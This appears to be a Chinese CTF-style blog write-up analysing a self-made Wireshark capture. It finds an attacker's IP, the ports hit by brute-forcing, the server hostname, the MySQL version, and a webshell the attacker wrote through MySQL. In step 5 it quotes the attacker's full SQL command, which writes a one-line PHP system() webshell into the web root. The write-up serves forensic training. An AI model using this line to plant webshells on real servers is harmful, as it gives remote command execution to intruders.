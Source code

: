 # Wireshark数据包题目分析

数据包分析器又名嗅探（Sniffers），是一种网络流量数据分析的手段，常见于网络安全领域使用，也有用于业务分析领域，一般是指使用嗅探器对数据流的数据截获与分组分析（Packet analysis）。

 - 分析网络问题
 - 业务分析
 - 分析网络信息流通量
 - 网络大数据金融风险控制
 - 探测企图入侵网络的攻击
 - 探测由内部和外部的用户滥用网络资源
 - 探测网络入侵后的影响
 - 监测链接互联网宽频流量
 - 监测网络使用流量（包括内部用户，外部用户和系统）
 - 监测互联网和用户电脑的安全状态
 - 渗透与欺骗

**以上摘自百度**
**数据包是我自己模拟的，现在已经上传至csdn有兴趣的人可以去下载做一下。**
我们本章主要以案例数据包进行分析找出关键数据，现在我们来看以下案例要求。


1、某公司网络系统存在异常，猜测可能有黑客对公司的服务器实施了一系列的扫描和攻 击，使用 Wireshark 抓包分析软件查看并分析 PC20201 服务器 C:\Users\Public\Documents路径下的dump.pcapng数据包文件，找到黑客的IP地址， 并将黑客的 IP 地址作为 Flag 值（如：172.16.1.1）提交；
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200119113708308.png)
我们从这一段数据包可以看出，192.168.52.132对192.168.52.139进行请求访问22端口(ssh服务)，通常情况下服务端不会主动对目标进行通信，所以我们判断黑客ip地址为192.168.52.132.

2.继续分析数据包文件dump.pcapng分析出黑客通过工具对目标服务器的哪些服务进行 了密码暴力枚举渗透测试，将服务对应的端口依照从小到大的顺序依次排列作为 Flag 值（如：77/88/99/166/1888）提交； 
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200119114604373.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200119114604656.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200119114616597.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
从以上三张图片我们可以看出，黑客分别对21,22,3306端口进行了请求。故此得到黑客扫描的端口为21/22/3306，可能小伙伴会好奇了不是还有一个20端口吗？这里的20端口也是ftp服务，但是与21端口不同他的作用是用于传输数据的(21端口用来控制用户验证, 连接的建立和关闭)。关于20端口我们会在下文进行详细讲解。

3.继续分析数据包文件 dump.pcapng，找出黑客已经获取到目标服务器的基本信息，请 将黑客获取到的目标服务器主机名作为 Flag 值提交； 
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020011911521883.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
我们进行过滤nbns数据包后进行追踪udp数据流可以得到主机名为metasploit，WINS服务器解析(NBNS数据包)，WINS服务器用于登记记录计算机NetBIOS名称和IP地址的对应关系，供局域网计算机查询。可能使用工具nbtscan进行扫描的。

4.黑客扫描后可能直接对目标服务器的某个服务实施了攻击，继续查看数据包文件 dump.pcapng 分析出黑客成功破解了哪个服务的密码，并将该服务的版本号作为 Flag 值(如：5.1.10)提交； 
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200119115534365.png)
查看数据包，发现mysql服务成功登陆并在数据包后面可直接查看版本，可得服务版本为5.1.73

5、继续分析数据包文件 dump.pcapng，黑客通过数据库写入了木马,将写入的木马名称作 为 Flag 值提交（名称不包含后缀）； 
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200119115606882.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
查看mysql数据包中执行的命令，黑客在成功登陆mysql数据库后对服务器网站进行上传了一句话木马，文件名为test.php.
黑客执行命令为:select '<?php system($_GET[cmd]);?>' into outfile '/var/www/html/test.php'

6、继续分析数据包文件 dump.pcapng，黑客通过数据库写入了木马,将黑客写入的一句话 木马的连接密码作为 Flag 值提交；

我们在上一步中已经得到黑客执行的命令，所以可以得到一句话木马的连接密码为cmd


7、继续分析数据包文件 dump.pcapng，找出黑客连接一句话木马后查看了什么文件，将 黑客查看的文件名称作为 Flag 值提交；

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200119115957711.png)
进行过滤http数据包，可以查看黑客使用一句话木马进行查看的文件名，为flag.txt

8、继续分析数据包文件 dump.pcapng，黑客可能找到异常用户后再次对目标服务器的某 个服务进行了密码暴力枚举渗透，成功破解出服务的密码后登录到服务器中下载了一 张图片，将图片文件中的英文单词作为 Flag 值提交。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200119120123434.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200119120135497.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
直接进行过滤ftp-data包，追踪tcp流，显示和保存数据为原始数据然后save as导出保存为图片格式，，即可得知下载的图片内容为hello,world!
**这里对ftp-data进行讲解，ftp-data主要是用户传输数据的对应的端口为20，所以20端口也称为FTP服务的数据端口。**

新年最后一更，年后更新就不定期更新了，因为事情比较多需要经常出差。
年后更新的方向大概就会偏向代码审计比较多一点了吧，年后我会把精力放到代码审计的学习中，在之前打比赛中我渗透主机后对web源码进行了代码审计得到了数据库密码和网站存在的逻辑漏洞最后牛逼了一波，这也让我明白了代码审计的重要性，所以我会去深入研究这一块了吧。

最后祝大家新年快乐!